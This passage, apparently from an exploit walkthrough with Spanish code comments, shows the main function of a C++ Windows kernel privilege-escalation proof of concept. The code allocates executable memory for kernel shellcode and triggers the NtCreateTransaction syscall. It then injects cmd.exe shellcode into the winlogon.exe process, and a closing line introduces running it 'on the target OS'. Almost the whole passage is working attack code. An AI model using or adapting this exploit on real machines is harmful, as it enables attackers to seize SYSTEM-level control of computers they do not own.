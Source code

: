 ```cpp
	CloseHandle(CreateThread);

	return true;
}


int main() {

	printf("\nAllocating Kernel Shellcode...\n");

	// asignamos el espacio
	PVOID pShellcode = VirtualAlloc(nullptr, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	RtlSecureZeroMemory(pShellcode, 0x1000);

	memcpy(pShellcode, KernelShellcode, 90);

	VirtualLock(pShellcode, 0x1000);

	printf("\n[SHELLCODE ADDRESS] 0x%p\n", pShellcode);
	printf("\nPress <ENTER> to trigger NtCreateTransaction syscall\n");
	getchar();

	CreateTransaction(NULL, 0, 0, 0, 0, 0, NULL);

	const wchar_t* wcProcess = L"winlogon.exe";
	DWORD dwPid = 0;

	wprintf(L"\nPress <ENTER> to inject shellcode (cmd.exe) into %s process\n", wcProcess);
	getchar();

	if (!ProcessEnum(wcProcess, &dwPid)) {
		printf("\n[main] error enumerating processes\n");
		return 1;
	}

	if (!RemoteInjection(dwPid)) {
		printf("\n[main] error executing the remote process\n");
		return 1;
	}


	return 0;
}
```

We run it on the target OS:
